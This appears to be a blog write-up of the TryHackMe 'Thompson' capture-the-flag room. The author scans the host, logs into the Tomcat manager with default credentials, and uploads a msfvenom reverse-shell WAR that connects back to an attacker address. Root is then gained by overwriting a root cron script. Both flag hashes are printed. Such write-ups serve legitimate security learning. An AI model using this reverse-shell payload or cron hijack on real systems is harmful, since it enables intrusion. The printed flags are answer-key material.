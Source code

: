 ```yaml
---
title: "Thompson - TryHackMe"
author: Ludovic COULON
date: 2020-06-07
hero: ./images/hero.png
excerpt: "Writeup for the Thompson room on TryHackMe"
---
```


[TryHackMe | Thompson](https://tryhackme.com/room/bsidesgtthompson)
Read user.txt and root.txt

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.221.95
```

```bash
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL+0hfJnh2z0jia21xVo/zOSRmzqE/qWyQv1G+8EJNXze3WPjXsC54jYeO0lp2SGq+sauzNvmWrHcrLKHtugMUQmkS9gD/p4zx4LjuG0WKYYeyLybs4WrTTmCU8PYGgmud9SwrDlEjX9AOEZgP/gj1FY+x+TfOtIT2OEE0Exvb86LhPj/AqdahABfCfxzHQ9ZyS6v4SMt/AvpJs6Dgady20CLxhYGY9yR+V4JnNl4jxwg2j64EGLx4vtCWNjwP+7ROkTmP6dzR7DxsH1h8Ko5C45HbTIjFzUmrJ1HMPZMo9ss0MsmeXPnZTmp5TxsxbLNJGSbDv7BS9gdCyTf0+Qq1
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBG6CiO2B7Uei2whKgUHjLmGY7dq1uZFhZ3wY5EWj5L7ylSj+bx5pwaiEgU/Velkp4ZWXM//thL6K1lAAPGLxHMM=
|   256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIwYtK4oCnQLSoBYAztlgcEsq8FLNL48LyxC2RfxC+33

8009/tcp open  ajp13   syn-ack Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request

8080/tcp open  http    syn-ack Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<div className="Image__Medium">
  <img src="https://imgur.com/gQ8AzdM.png" alt="blog_image" />
</div>

Let's try the "manager app" button

<div className="Image__Medium">
  <img src="https://imgur.com/Ty59zwz.png" alt="blog_image" />
</div>

Well, I tried the cancel button because I don't have any credentials

<div className="Image__Medium">
  <img src="https://imgur.com/0wnAZv3.png" alt="blog_image" />
</div>

For some obscure reason (maybe bad configuration) there is a password and a username let's try it ! 🤨

<div className="Image__Medium">
  <img src="https://imgur.com/x0PrhCR.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/7CTEfM6.png" alt="blog_image" />
</div>

Well that worked let's see if there is a way to upload some reverse shell 🤑

<div className="Image__Medium">
  <img src="https://imgur.com/n7GjOi7.png" alt="blog_image" />
</div>

I noticed a WAR file uploader let's search something on github/google

[Multiple Ways to Exploit Tomcat Manager](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/)

```bash
➜  TryHackMe msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.2.228 LPORT=1234 -f war > shell.war
```

<div className="Image__Medium">
  <img src="https://imgur.com/FwO3JC4.png" alt="blog_image" />
</div>

### #1 user.txt

```bash
39400c90bc683a41a8935e4719f181bf
```

### #2 root.txt

```bash
$ id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

$ bash id.sh
id.sh: line 2: test.txt: Permission denied

$ cat id.sh
#!/bin/bash
id > test.txt

$ cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

If we copy the content root key on the [id.sh](http://id.sh) it should be executed with root privileges let's try that ! :D

```bash
echo "cp /root/root.txt /home/jack/root.txt" > id.sh
```

```bash
# Its a cron job its gonna take some time..
$ cat id.sh
cp /root/root.txt /home/jack/root.txt

$ ls
id.sh  root.txt  test.txt  user.txt

$ cat root.txt
d89d5391984c0450a95497153ae7ca3a
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/8vldBpt.png" alt="TryhackMeProfile" />
  </a>
</center>
